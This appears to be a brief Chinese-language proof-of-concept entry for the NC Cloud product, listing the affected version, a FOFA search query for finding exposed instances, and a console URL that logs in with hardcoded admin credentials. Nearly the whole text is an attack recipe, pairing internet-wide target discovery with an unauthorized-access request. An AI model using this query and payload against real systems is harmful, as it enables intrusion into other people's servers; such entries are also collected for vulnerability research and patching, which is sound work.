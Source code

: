 <languages />

影响版本
--------

NC Cloud

FOFA
----

    "NCCloud"

POC
---

    /fs/console?username=admin&password=123456